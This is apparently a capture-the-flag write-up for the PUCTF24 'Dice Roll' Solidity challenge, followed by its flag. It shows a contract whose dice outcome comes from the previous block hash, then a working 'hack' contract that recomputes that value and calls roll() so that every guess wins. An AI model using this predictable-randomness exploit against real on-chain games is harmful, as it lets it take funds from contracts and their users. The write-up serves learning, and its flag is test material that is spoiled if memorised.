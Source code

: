 # Dice Roll / 擲骰仔

## Approach

It says

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract DiceRoll {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 ram = 2023;

  constructor() {
    consecutiveWins = 0;
  }

  function roll(uint256 _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 diceRoll = blockValue / ram % 6;

    if (diceRoll == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

Pay attention to this, this is not a random number, it is a block number.

```solidity
uint256(blockhash(block.number - 1));
```

Moreover, you can obtain it very easily.

![Alt text](image.png)

But I found that this number changed quickly, so I wrote an automated program.

```solidity
pragma solidity ^0.8.0;

contract DiceRoll {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 ram = 2023;

    constructor() {
        consecutiveWins = 0;
    }

    function roll(uint256 _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 diceRoll = (blockValue / ram) % 6;

        if (diceRoll == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}

contract hack {
    uint256 lastHash;
    uint256 ram = 2023;

    DiceRoll c = DiceRoll(0xDdDeE156a4B433d8EbFF951c28005c223A97947B);

    function calc() public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 diceRoll = (blockValue / ram) % 6;
        
        if (c.roll(diceRoll) == true) {
            return true;
        } else {
            return false;
        }
    }
}
```

Manually click it to run

![Alt text](image-1.png)

It can be found that coherentWins has been added

![Alt text](image-2.png)


![Alt text](image-3.png)

## Flag

`PUCTF24{n0_r3n4omn3ss_1n_bl0ckch41n_vuLptYG7wexbBQ8ZvtYhGU2MdW4uT7po}`
